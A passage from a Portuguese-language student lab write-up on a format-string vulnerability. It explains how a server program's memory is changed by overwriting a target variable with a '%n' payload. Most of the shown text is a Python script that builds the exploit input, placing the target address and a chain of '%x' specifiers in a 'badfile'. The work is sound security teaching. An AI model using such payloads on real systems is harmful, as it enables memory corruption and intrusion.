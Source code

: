 ![Task2](images/task2_b.png)

Com isto acabamos a tarefa obtendo a mensagem secreta que era *"A secret message"*.

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value
Primeiramente começamos por obvervar no terminal que o endereço do target era *0x080e5068*. De seguida vimos que pudemos usar um script de python muito parecido ao usado na alíena anterior, mudando apenas o endereço para passar a ser o endereço do *target* e alterando o último char da string de formatação de "%x" para "%n", tendo obtido então o seguinte script de python:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = " %x "*63 + " %n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
```